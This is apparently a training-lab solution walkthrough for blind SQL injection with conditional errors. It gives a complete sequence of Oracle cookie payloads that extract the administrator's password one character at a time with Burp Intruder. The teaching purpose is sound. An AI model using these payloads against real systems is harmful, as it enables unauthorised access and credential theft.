 Lab: Blind SQL injection with conditional errors

This lab contains a blind SQL injection vulnerability. The application uses a tracking cookie for analytics, and performs a SQL query containing the value of the submitted cookie.

The results of the SQL query are not returned, and the application does not respond any differently based on whether the query returns any rows. If the SQL query causes an error, then the application returns a custom error message.

The database contains a different table called users, with columns called username and password. You need to exploit the blind SQL injection vulnerability to find out the password of the administrator user.

To solve the lab, log in as the administrator user.

Solution

Visit the front page of the shop, and use Burp Suite to intercept and modify the request containing the TrackingId cookie. For simplicity, let's say the original value of the cookie is TrackingId=xyz.
Modify the TrackingId cookie, appending a single quotation mark to it:

TrackingId=xyz'
Verify that an error message is received.

Now change it to two quotation marks:
TrackingId=xyz''
Verify that the error disappears. This suggests that a syntax error (in this case, the unclosed quotation mark) is having a detectable effect on the response.
You now need to confirm that the server is interpreting the injection as a SQL query i.e. that the error is a SQL syntax error as opposed to any other kind of error. To do this, you first need to construct a subquery using valid SQL syntax. Try submitting:

TrackingId=xyz'||(SELECT '')||'
In this case, notice that the query still appears to be invalid. This may be due to the database type - try specifying a predictable table name in the query:

TrackingId=xyz'||(SELECT '' FROM dual)||'
As you no longer receive an error, this indicates that the target is probably using an Oracle database, which requires all SELECT statements to explicitly specify a table name.

Now that you've crafted what appears to be a valid query, try submitting an invalid query while still preserving valid SQL syntax. For example, try querying a non-existent table name:

TrackingId=xyz'||(SELECT '' FROM not-a-real-table)||'
This time, an error is returned. This behavior strongly suggests that your injection is being processed as a SQL query by the back-end.

As long as you make sure to always inject syntactically valid SQL queries, you can use this error response to infer key information about the database. For example, in order to verify that the users table exists, send the following query:

TrackingId=xyz'||(SELECT '' FROM users WHERE ROWNUM = 1)||'
As this query does not return an error, you can infer that this table does exist. Note that the WHERE ROWNUM = 1 condition is important here to prevent the query from returning more than one row, which would break our concatenation.

You can also exploit this behavior to test conditions. First, submit the following query:

TrackingId=xyz'||(SELECT CASE WHEN (1=1) THEN TO_CHAR(1/0) ELSE '' END FROM dual)||'
Verify that an error message is received.

Now change it to:

TrackingId=xyz'||(SELECT CASE WHEN (1=2) THEN TO_CHAR(1/0) ELSE '' END FROM dual)||'
Verify that the error disappears. This demonstrates that you can trigger an error conditionally on the truth of a specific condition. The CASE statement tests a condition and evaluates to one expression if the condition is true, and another expression if the condition is false. The former expression contains a divide-by-zero, which causes an error. In this case, the two payloads test the conditions 1=1 and 1=2, and an error is received when the condition is true.

You can use this behavior to test whether specific entries exist in a table. For example, use the following query to check whether the username administrator exists:

TrackingId=xyz'||(SELECT CASE WHEN (1=1) THEN TO_CHAR(1/0) ELSE '' END FROM users WHERE username='administrator')||'
Verify that the condition is true (the error is received), confirming that there is a user called administrator.

The next step is to determine how many characters are in the password of the administrator user. To do this, change the value to:

TrackingId=xyz'||(SELECT CASE WHEN LENGTH(password)>1 THEN to_char(1/0) ELSE '' END FROM users WHERE username='administrator')||'
This condition should be true, confirming that the password is greater than 1 character in length.

Send a series of follow-up values to test different password lengths. Send:

TrackingId=xyz'||(SELECT CASE WHEN LENGTH(password)>2 THEN TO_CHAR(1/0) ELSE '' END FROM users WHERE username='administrator')||'
Then send:

TrackingId=xyz'||(SELECT CASE WHEN LENGTH(password)>3 THEN TO_CHAR(1/0) ELSE '' END FROM users WHERE username='administrator')||'
And so on. You can do this manually using Burp Repeater, since the length is likely to be short. When the condition stops being true (i.e. when the error disappears), you have determined the length of the password, which is in fact 20 characters long.

After determining the length of the password, the next step is to test the character at each position to determine its value. This involves a much larger number of requests, so you need to use Burp Intruder. Send the request you are working on to Burp Intruder, using the context menu.
Go to Burp Intruder and change the value of the cookie to:

TrackingId=xyz'||(SELECT CASE WHEN SUBSTR(password,1,1)='a' THEN TO_CHAR(1/0) ELSE '' END FROM users WHERE username='administrator')||'
This uses the SUBSTR() function to extract a single character from the password, and test it against a specific value. Our attack will cycle through each position and possible value, testing each one in turn.

Place payload position markers around the final a character in the cookie value. To do this, select just the a, and click the "Add §" button. You should then see the following as the cookie value (note the payload position markers):

TrackingId=xyz'||(SELECT CASE WHEN SUBSTR(password,1,1)='§a§' THEN TO_CHAR(1/0) ELSE '' END FROM users WHERE username='administrator')||'
To test the character at each position, you'll need to send suitable payloads in the payload position that you've defined. You can assume that the password contains only lowercase alphanumeric characters. In the "Payloads" side panel, check that "Simple list" is selected, and under "Payload configuration" add the payloads in the range a - z and 0 - 9. You can select these easily using the "Add from list" drop-down.
Launch the attack by clicking the " Start attack" button.
Review the attack results to find the value of the character at the first position. The application returns an HTTP 500 status code when the error occurs, and an HTTP 200 status code normally. The "Status" column in the Intruder results shows the HTTP status code, so you can easily find the row with 500 in this column. The payload showing for that row is the value of the character at the first position.
Now, you simply need to re-run the attack for each of the other character positions in the password, to determine their value. To do this, go back to the original Intruder tab, and change the specified offset from 1 to 2. You should then see the following as the cookie value:

TrackingId=xyz'||(SELECT CASE WHEN SUBSTR(password,2,1)='§a§' THEN TO_CHAR(1/0) ELSE '' END FROM users WHERE username='administrator')||'
Launch the modified attack, review the results, and note the character at the second offset.
Continue this process testing offset 3, 4, and so on, until you have the whole password.
In the browser, click "My account" to open the login page. Use the password to log in as the administrator user.
